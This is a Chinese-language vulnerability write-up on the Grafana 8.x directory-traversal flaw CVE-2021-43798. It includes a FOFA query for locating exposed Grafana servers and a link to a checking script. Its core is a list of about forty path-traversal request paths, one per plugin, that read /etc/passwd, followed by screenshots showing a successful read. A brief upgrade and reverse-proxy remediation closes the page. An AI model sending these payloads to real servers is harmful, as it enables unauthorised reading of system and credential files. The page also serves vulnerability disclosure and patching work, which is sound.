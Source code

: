 ```yaml
---
title: Grafana文件读取漏洞（CVE-2021-43798）
---
```


# Grafana文件读取漏洞（CVE-2021-43798）

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。2021年12月6日，国外安全研究人员披露Grafana中某些接口在提供静态文件时，攻击者通过构造恶意请求，可造成目录遍历，读取系统上的文件。

## 风险等级

高危

## 影响版本

Grafana 8.x 系列

## 资产确定

```fofa
app="grafana"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-1.jpg)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-4.jpg)

## 漏洞检测

**检测脚本**

[https://github.com/j-jasson/CVE-2021-43798-grafana_fileread](https://github.com/j-jasson/CVE-2021-43798-grafana_fileread)

**plugins**

```payload
text
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
```

**payload**

```payload
/public/plugins/alertlist/../../../../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../../../../etc/passwd
/public/plugins/stackdriver/../../../../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../../../../etc/passwd
```

**开始检测**

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-2.png)

**验证，成功读取文件。**

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-3.png)

**修复方案**

v8.0.0-beta1 和 v8.3.0 之间的所有安装都应尽快升级。

如果无法升级，在 Grafana 前运行反向代理来规范化请求的 PATH 将缓解该漏洞。例如，envoy 中的normalize_path设置。
